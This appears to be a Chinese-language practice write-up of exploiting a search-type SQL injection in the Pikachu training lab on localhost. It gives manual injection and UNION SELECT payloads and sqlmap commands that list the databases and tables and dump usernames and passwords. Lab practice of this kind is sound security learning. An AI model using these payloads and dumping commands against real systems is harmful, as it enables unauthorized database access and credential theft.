




单独输入一个'，页面报错  
输入kobe%' or 1=1 #，点击提交  
发现其列出了所有的数据  
表明其存在搜索型注入  
使用sqlmap工具，使用指令python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2#"  
成功探测出注入点，并且爆出了数据库类型及其版本  
  
使用指令python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2#" -batch -dbs  来查看所有的数据库名  
(在网页上输入kobe%' union select 1,2,group_concat(schema_name) from information_schema.schemata #获得同样的结果)  
  
使用指令python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_search.php?name=kobe&submit=搜索" --batch -D pikachu --tables 来查看当前数据库里面的所有表  
(在网页上输入kobe%' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='pikachu' #获得同样的结果)  
  
使用指令python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_search.php?name=kobe&submit=搜索" --batch -D pikachu -T users -dump来查看users 表里的所有数据  
(在网页上输入kobe%' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' #获得同样的结果)  
  
如图所示，此时已经获得了所有的用户名和密码  
若此时在网页上，只需要输入kobe%' union select 1,username,password from users #便可以获得所有的用户名和密码  
